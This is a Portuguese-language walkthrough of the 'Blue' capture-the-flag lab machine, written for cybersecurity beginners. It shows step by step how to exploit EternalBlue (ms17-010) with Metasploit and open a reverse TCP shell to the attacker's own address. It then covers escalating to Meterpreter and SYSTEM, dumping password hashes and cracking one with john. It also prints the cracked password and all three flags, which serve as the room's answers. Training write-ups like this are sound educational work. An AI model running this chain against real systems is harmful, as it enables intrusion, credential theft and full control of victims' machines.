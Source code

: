 # Observações
- Sejam éticos!
- CTFs não são diretos ao ponto, é recorrente precisar ir e voltar em vários passos até conseguir obter a flag e finalizar. Lendo/vendo o material pode parecer que está tudo acontecendo rápido, isso só é possível com preparação prévia e algum tempo e esforço.
- É natural esbarrar em coisas que você não sabe durante o processo, parte do trabalho de um hacker é pesquisar como invadir um sistema a partir das informações que ele têm
- Estamos usando ferramentas para abstrair parte do processo e tornar mais fácil pra quem está iniciando na cibersegurança, mas é importante não depender delas e de fato entender o processo por trás
# Contexto geral do CTF:
- O Blue simula uma máquina utilizando Windows 7 com um clássico erro de configuração, vamos tentar explorar o computador nos aproveitando desse descuido.
# Reconhecimento
- Primeiro ligamos a VPN
```bash
sudo openvpn OracleofDelfos.ovpn
```
- Começamos com um scan do nmap
```bash 
nmap -sV -p0-1000 <IP>
``` 
- -p especifica quais portas serão escaneadas e -sV especifica para tentar encontrar o serviço ativo nessa porta
Resultado:
```bash
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
```
- Dentre essas portas, a 445 é familiar por sua recorrência em CTFs, ela está relacionada com o protocolo SMB, que hoje em dia não é mais usado por não ser considerado seguro
- De qualquer forma, como mencionado acima, o conhecimento prévio é útil mas não obrigatório, então basta pesquisar sobre cada uma na internet
	- Encontramos ms17-010, forma de identificar uma vulnerabilidade, o modelo mais comum é o CVE mas como o Metasploit já classificou, provavelmente podemos explorar esse CTF usando ele.
- Nessa etapa conseguimos identificar o que é chamado de um **vetor de ataque** , uma forma de talvez acessar o computador do alvo.
# Acesso
- Começar iniciando o Metasploit
```bash
msfconsole
```
- Procurar o exploit para a vulnerabilidade especifica:
```bash
search ms17-010
```
- Várias opções, mas a primeira que encontramos no google foi relacionado ao Eternal-Blue, então vamos nesse
```bash
use 0
show options
```
- Aqui várias configurações já vem prontas, basta selecionar o RHOST, que é o IP que vamos atacar e o LHOST, seu próprio IP dentro da VPN,  pode ser obtido abrindo 10.10.10.10 no navegador.
```bash
set RHOSTS <IP>
set LHOST <Seu IP>
```
- Normalmente, isso seria o suficiente, mas a room pede para especificarmos um payload mais simples para fazermos a escalação de privilégio num passo separado, por questões didáticas, então fazemos:
```bash
set payload windows/x64/shell/reverse_tcp
```
- Por fim, basta iniciar o ataque!
```bash
run
```
- Com isso conseguimos uma shell dentro da máquina!
```bash
C:\Windows\system32>
```
- Nesse momento, já obtivemos acesso direto ao sistema do alvo, um atacante malicioso poderia causar muitos prejuízos com esse grau de acesso mas, se possível, queremos obter acesso de administrador para garantir controle total da máquina-alvo.
# Escalação de privilégio
- Temos acesso à uma shell normal, esse passo consiste em obter acesso de administrador e, portanto, acesso total à máquina
- Vamos colocar essa shell de agora para rodar em segundo plano e voltar pro metasploit, para isso usamos Ctrl+Z
- O Metasploit tem um script que serve como shell de administrador chamada Meterpreter, queremos trocar da shell comum para essa, para isso pesquisamos um modulo que faça isso, literalmente
```bash
search shell_to_meterpreter
use 0
```
  - Olhando novamente as opções, falta apenas o LHOST e a sessão já aberta, vamos resolver isso
```bash
show options
set LHOST <Seu IP>
sessions -l 
set SESSION 1
```
- Uma vez que o módulo execute corretamente, vamos mudar a sessão de volta e conferir se temos acesso de administrador
```bash 
sessions -i 2
getsystem
```
- Com isso, temos uma shell de administrador, mas não significa que o processo onde o arquivo malicioso se encontra está, para isso vamos migrar o processo
```bash
ps
migrate <número>
```
- Agora que temos acesso de administrador ao sistema, vamos começar garantindo acesso para outras sessões se necessário, obtendo a senha do windows do alvo.
# Quebra de senhas
- Vamos obter as hashs das senhas a partir do acesso de administrador obtido
```bash
hashdump
```
- Com isso, vamos encontrar a senha do Jon usando a wordlist rockyou.txt
	- Em geral, compensa pesquisar hashes no google, muitas vezes elas já foram quebradas economiza trabalho, tempo e processamento, no entanto, também por motivos didáticos vamos quebrar ela manualmente
```bash
nano hash.txt
cp /usr/share/wordlists/rockyou.txt.gz .
sudo gunzip -c rockyou.txt.gz > rockyou.txt    
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
- Resultado:
```bash
alqfna22         (Jon)    
```
# Pós-Exploração e Flags
- Agora já temos acesso total ao sistema, só faltam encontrar as flags
- Primeiro lugar que é interessante é acessível só para admins, o root do sistema
- Navegamos até lá usando cd .. repetidamente
```bash
ls
cat flag1.txt
```
Resultado:
```bash
flag{access_the_machine}
```
- Próximo lugar que pode interessar é o System32, lá onde vários arquivos de sistema ficam guardados, isso inclui as senhas em System32/config
```bash
ls
cat flag2.txt
```
Resultado:
```bash
flag{sam_database_elevated_access}
```
- À essa altura, já vasculhamos tudo que era interessante do computador do Jon, nosso alvo hipotético
	- Agora do ponto de vista humano, onde pode ter alguma coisa de interessante?
		- Como ele é o admin, muito provavelmente ele vai ter algum documento importante certo? Muitos dados pessoais dele podem ser expostos a partir daqui
		- Com isso em mente, vasculhamos a pasta Documents do Jon
```bash
ls
cat flag3.txt
```
Resultado:
```bash
flag{admin_documents_can_be_valuable}
```

Fim do CTF!!
